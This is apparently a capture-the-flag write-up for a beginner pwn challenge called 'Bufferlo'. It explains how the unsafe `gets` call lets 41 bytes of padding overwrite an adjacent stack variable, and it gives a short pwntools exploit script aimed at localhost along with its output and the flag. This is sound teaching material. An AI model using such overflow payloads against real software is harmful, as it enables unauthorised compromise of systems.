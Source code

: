 # Intended Solution for Bufferlo

The presence of `gets` and the comment in line 10 should hopefully lead us to believe that this is a buffer overflow vulnerability.

The `num_buffalo` variable is stored right below the buffer on the stack, so we can overflow the buffer into `num_buffalo`
and write our new value in. Either by using gdb and checking where on the stack the variables end up, or by trial and error,
we can find that we need 41 bytes of padding in the buffer before we hit `num_buffalo`.
So we can use pwntools or something similar to send a payload with 41 of some character followed by 0x00000001 as bytes.

Here is an example of a script that does this:
```python
from pwn import *

p = remote("localhost", 1358)
#p = process("./vuln")
print(p.recv())
p.sendline(b"A"*41 + b"\x00\x00\x00\x01")
print(p.recv())
```

And here it is being executed:
```
┌──(justjayiguess㉿just-jay)-[~/…/ctfs/pecan24/pwn/buffalo-overflow]
└─$ python3 solve.py
[+] Opening connection to localhost on port 1358: Done
b'Help! The city of New York has a buffalo overflow!\nCan you convince some to leave? We need exactly one buffalo...\n'
b'"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!" you scream into the city...\nYou did it! Take this flag as a token of our appreciation...\npecan{buff4l0_boffalo_bufferlo_8uffalo}'
[*] Closed connection to localhost port 1358
```
